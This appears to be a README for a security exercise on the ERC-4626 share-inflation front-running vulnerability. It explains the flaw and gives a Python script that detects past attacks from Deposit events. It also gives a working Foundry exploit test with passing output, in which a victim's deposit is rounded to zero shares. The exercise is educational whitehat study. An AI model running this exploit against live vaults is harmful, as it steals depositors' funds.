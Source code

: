 # Vault - Tier 1
You are looking through an old version of the OpenZeppelin implementation of ERC-4626 and notice a vulnerability that requires frontrunning an innocent user. You have been granted a large amount of ETH (say e.g. 1k ETH, but you are free to choose the amount :) ) and want to set up a whitehat bot to execute this exploit and return the funds to the user.


### a) Describe the vulnerability and the payoffs for an attacker.

he key vulnerability in the ERC-4626 tokenized vault standard arises from the calculation of shares during asset deposits. The formula uses `asset.balanceOf(address(this))` as the denominator, which can be manipulated. A potential attacker could exploit this by transferring assets to the vault contract immediately before a legitimate deposit transaction, effectively front-running it.

``` sharesAmount = totalShares * assetAmount / asset.balanceOf(address(this)) ```

Depending on the implementation and protection mechanisms in place, the potential vulnerability may vary:

1. A vault might be vulnerable to a total loss of user funds, which go directly to the attacker, if the vault doesn't implement any protection. This occurs by rounding the depositor's shares to 0.
2. A vault might be vulnerable to a partial loss of funds if there is some protection, by rounding the depositor's shares to 1.
3. A vault might have proper protection in place through "dead shares," which make it impossible for the attacker to profit and extremely expensive to launch a griefing attack.

The payoffs for the attacker in scenario 1 are the most significant, as they can receive 100% of the innocent user's deposit. In scenario 2, the attacker can still ensure a profit. They don't risk losing funds in either case when executing the attack.

In scenario 3, however, the attacker would have to lose a substantial amount just to sabotage the user's deposit.

For the sake of this exercise, I'm assuming we're dealing with vulnerability 1, as this was the case for the old OpenZeppelin implementation of ERC4626.

- b)  Produce code that can check if this vulnerability has occurred in the past and determine how much value was lost, if any.

Assuming we're dealing with the first scenario, we can check if the attack has occurred previously by filtering `Deposit` events on the vault where the assets deposited are greater than 0 and the shares received are 0. 

While the attacker could round the victim's shares to 1, we'll assume they maximize their gains. We've created a script to monitor a specific vault, located in `./scripts `

```python
def check_for_attack(events):
    for event in events:
        assets = event['args']['assets']
        shares = event['args']['shares']

        print(f"Assets: {assets}, Shares: {shares}")

        # Check if shares are 0 and assets > 0
        if shares == 0 and assets > 0:
            caller = event['args']['caller']
            owner = event['args']['owner']
            print(f"Potential attack detected! Caller: {caller}, Owner: {owner}, Assets lost: {assets} tokens")
        else:
            print("No attack detected")
```


- c)  Write code for the bot that can carry out the exploit (don’t worry about returning user funds).

A test on foundry was created replicating the full situation, where the victim got out of tokens, and we were able to get access to 100% of their deposit can be found on `./simulations`

```solidity
    function test() public {
        uint256 vaultBalanceStart = weth.balanceOf(address(vault));
        uint256 victimBalanceStart = weth.balanceOf(victim);
        uint256 whitehatBalanceStart = weth.balanceOf(whitehat);

        console2.log("vault balance start", vaultBalanceStart);
        console2.log("victim balance start", victimBalanceStart);
        console2.log("whitehat balance start", whitehatBalanceStart);

        vm.startPrank(whitehat);
        vault.deposit(1, whitehat);

        uint256 vaultBalanceAfterMint = weth.balanceOf(address(vault));

        assertEq(vaultBalanceAfterMint, 1);

        weth.transfer(address(vault), inflationAmount);

        uint256 vaultBalanceAfterTransfer = weth.balanceOf(address(vault));
        uint256 vaultTotalSupplyAfterTransfer = vault.totalSupply();

        console2.log("vault balance after transfer", vaultBalanceAfterTransfer);
        console2.log("vault total supply after transfer", vaultTotalSupplyAfterTransfer);
        console2.log("victim deposit");

        vm.startPrank(victim);
        vault.deposit(victimDeposit, victim);
        
        uint256 victimBalanceAfterDeposit = weth.balanceOf(victim);
        uint256 vaultBalanceAfterDeposit = weth.balanceOf(address(vault));
        uint256 vaultTotalSupplyAfterDeposit = vault.totalSupply();
        uint256 victimShares = vault.balanceOf(victim);
        uint256 whitehatShares = vault.balanceOf(whitehat);

        console2.log("victim balance after deposit", victimBalanceAfterDeposit);
        console2.log("vault balance after deposit", vaultBalanceAfterDeposit);
        console2.log("vault total supply after deposit", vaultTotalSupplyAfterDeposit);
        console2.log("victim shares", victimShares);
        console2.log("whitehat shares", whitehatShares);

        assertEq(victimShares, 0);
        assertEq(whitehatShares, 1);
        assertEq(vaultBalanceAfterDeposit, inflationAmount + victimDeposit + 1);
    }
```

It can be run by going into simulations and running 

`forge test --match-path test/01_ERC_4626.sol --via-ir --fork-url  http://127.0.0.1:8599 -vvv `

```shell
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for test/01_ERC_4626.sol:VaultTest
[PASS] test() (gas: 158259)
Logs:
  vault balance start 0
  victim balance start 100000000000000000000
  whitehat balance start 100000000000000000000
  deposit
  vault balance after transfer 10000000000000000001
  vault total supply after transfer 1
  victim deposit
  deposit
  victim balance after deposit 90000000000000000000
  vault balance after deposit 20000000000000000001
  vault total supply after deposit 1
  victim shares 0
  whitehat shares 1

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.88ms (2.40ms CPU time)
```